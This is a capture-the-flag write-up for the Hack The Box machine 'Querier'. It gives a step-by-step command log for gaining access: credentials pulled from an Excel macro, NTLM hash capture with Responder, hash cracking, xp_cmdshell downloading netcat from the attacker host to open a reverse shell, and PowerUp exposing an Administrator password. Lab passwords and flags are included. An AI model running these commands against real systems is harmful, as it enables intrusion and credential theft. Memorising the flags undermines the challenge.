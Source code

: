 # Querier - Medium

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.125

smbclient -L \\\\10.10.10.125

smbclient \\\\10.10.10.125\\Reports

mget *
#get the xlsm file

binwalk "Currency Volume Report.xlsm"
#shows several files inside

binwalk -e "Currency Volume Report.xlsm"
#extracts to a directory
#go through all files

#inside extracted folders
cd xl

ls -la

strings vbaProject.bin
#gives uid and password
#we can use this to log into mssql service

mssqlclient.py reporting@10.10.10.125 -windows-auth

#in mssql client
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
#view current user permissions

SELECT name FROM master.dbo.sysdatabases;
#view table names

#in another tab, start responder
sudo responder -I tun0

#in mssqlclient
xp_dirtree '\\10.10.14.2\myshare';

#in attacker machine
vim ntlmhash.txt
#copy the complete hash captured by responder

hashcat -a 0 -m 5600 ntlmv2hash.txt /usr/share/wordlists/rockyou.txt
#crack the hash

#log into mssqlclient with new creds
mssqlclient.py mssql-svc@10.10.10.125 -windows-auth

SELECT * FROM fn_my_permissions(NULL, 'SERVER');
#we have more privileges now

help
#view extra commands

enable_xp_cmdshell

xp_cmdshell whoami
#it works

#in attacker machine
python3 -m http.server

#setup listener
nc -nvlp 4444

#in mssqlclient
xp_cmdshell "powershell.exe wget http://10.10.14.2:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"
#downloads the netcat binary

xp_cmdshell  "c:\\Users\Public\\nc.exe -e cmd.exe 10.10.14.2 4444"
#this gives us reverse shell on listener

whoami
#mssql-svc
#we can get user flag

powershell -ep bypass

IWR http://10.10.14.2:8000/PowerUp.ps1 -OutFile PowerUp.ps1

. .\PowerUp.ps1
#this uses Invoke-AllChecks
#gives us Administrator password in cached GPP files

evil-winrm -i 10.10.10.125 -u Administrator -p "MyUnclesAreMarioAndLuigi\!\!1\!"
#escape chars
#get root flag
```

* Open ports & services:

  * 135 - msrpc - Microsoft Windows RPC
  * 445 - microsoft-ds
  * 1433 - ms-sql-s - Microsoft SQL Server 2017
  * 5985 - http - Microsoft HTTPAPI httpd 2.0
  * 8732 - dtp-net
  * 47001 - http
  * 49664-49671 - msrpc - Microsoft Windows RPC

* While enumerating SMB shares, we get a 'reports' share - we can check for files inside.

* The share contains a .xlsm file - which is an Excel macro-enabled workbook.

* We cannot open it as a spreadsheet, but we can extract the files inside it using ```binwalk```.

* One of the files in the extracted folders, vbaProject.bin, contains interesting info which can be viewed using ```strings```.

* Using this, we get the uid 'reporting' and password 'PcwTWTHRwryjc$c6'.

* With these creds, we can log into the MSSQL service; we will be using the client provided by impacket.

* We can begin enumeration in MSSQL using ```mssqlclient.py```, but we do not get anything.

* We can attempt to capture NTLM hashes using the mssqlclient and ```responder```; we need to use ```xp_dirtree``` in the mssqlclient to access a SMB share which does not exist.

* This helps ```responder``` to fetch NTLMv2-SSP hash for user 'mssql-svc'; we can crack the hash using ```hashcat```

* Cracking the hash gives us the password 'corporate568' for user mssql-svc; we can log into the MSSQL service with these creds.

* As we have more privileges now, we can attempt to execute commands using ```xp_cmdshell```.

* ```xp_cmdshell``` works, so we can proceed to get a reverse shell using netcat.

* After setting up our listener, downloading netcat and executing the command on mssqlclient, we get reverse shell as mssql-svc.

* We can use ```PowerUp``` for enumeration; ```certutil``` does not work, so we can load PS and use ```Invoke-WebRequest``` instead.

* In PowerShell, we can run the PowerUp script and use ```Invoke-AllChecks``` module.

* The output shows cached GPP files - this includes the password "MyUnclesAreMarioAndLuigi!!1!" for Administrator user.

* So, we can use these creds to login as Admin and get root flag.

```markdown
1. User flag - ff392c362b6e3491b80eaa576caea8b3

2. Root flag - 25aa3e742c87c6737a89838c822d52f4
```
